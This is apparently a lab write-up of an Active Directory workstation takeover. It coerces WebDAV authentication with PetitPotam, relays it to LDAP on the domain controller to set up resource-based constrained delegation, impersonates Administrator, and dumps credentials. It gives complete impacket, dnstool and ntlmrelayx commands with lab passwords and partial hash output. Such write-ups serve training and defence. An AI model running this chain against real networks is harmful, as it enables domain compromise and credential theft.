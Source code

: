 ![](this_is_fine-1024x516.jpg)We just have a low privileged domain user that has no permissions whatsoever anywhere which means we are limited to actions that *any* domain user is allowed to. Luckily this involves quite a lot of things. First of all we can add computer accounts to the domain because the quota is set to 10 (the default). On the other hand LDAP signing and channel binding is not enforced (also the default). This opens up a possibility for an attack on clients which is known as RBCD workstation takeover.

Roughly this works as follows: First, we coerce authentication from a workstation that is running the webclient service (if its not running it can be forced to start remotely). This will give us a machine account authentication from WS01$ to our machine. Sadly we can’t relay SMB authentication to the only other machine (the DC) because of enforced SMB-Signing. However we can coerce authentication against WebDAV instead. WebDAV uses HTTP, so the machine will use NTLM Authentication to authenticate. Since this is a web request, SMB-Signing is not relevant here and we are now indeed able to relay the authentication to the DC (to LDAP, since LDAP signing is not enforced). Using WebDAV coersion instead of SMB can be achieved by specifiying a port that’s not 445, e.g. `\\attacker@8080`.

There is however one caveat. We can not put an ip address – it will only authenticate against a target thats in the trusted zone so we would need to add a dns entry somehow. Luckily this is also something that’s allowed for any user in the domain by default!

So what does relaying this authentication to LDAP on the DC let us do? We will be in the context of WS01$ and that account is allowed to set any attribute on itself (since its the owner). This allows us to create the conditions for RBCD writing the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on WS01$ and with that allow a new machine account we create to impersonate any user on the machine.

Let’s execute the attack now:

```
# Add new dns entry that points to our attacker machine, set your local dns server to the dc ip in /etc/resolv.conf before running
python dnstool.py -u intercept.vl\\kathryn.spencer -p 'Chocolate1' -r xct.intercept.vl -d 10.8.0.36 --action add dc01.intercept.vl

# Add a new machine account
impacket-addcomputer -computer-name 'WS02$' -computer-pass 'Start123!' -dc-host dc01.intercept.vl -domain-netbios intercept  'INTERCEPT/Kathryn.Spencer:Chocolate1'

# Listener for relaying auth to LDAP on the DC in order to configure RBCD on WS01$ (it's allowed to write it's own attribute)
sudo impacket-ntlmrelayx -smb2support -t ldaps://dc01.intercept.vl --http-port 8080 --delegate-access --escalate-user WS02\$ --no-dump --no-acl --no-da

# Coerce Authentication from the workstation WS01$ using a non-default port so it's a WebDAV authentication
python3 PetitPotam.py -d intercept.vl -u 'Kathryn.Spencer' -p 'Chocolate1' xct@8080/a ws01.intercept.vl

# Impersonate Administrator on WS01 by using our RBCD privileges
impacket-getST -spn cifs/ws01.intercept.vl intercept.vl/WS02\$ -impersonate administrator
export KRB5CCNAME=$PWD/administrator.ccache
impacket-secretsdump -k -no-pass ws01.intercept.vl
...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:xxx:::
...
[*] _SC_HelpdeskService
Simon.Bowen@intercept.vl:xxx
...
```
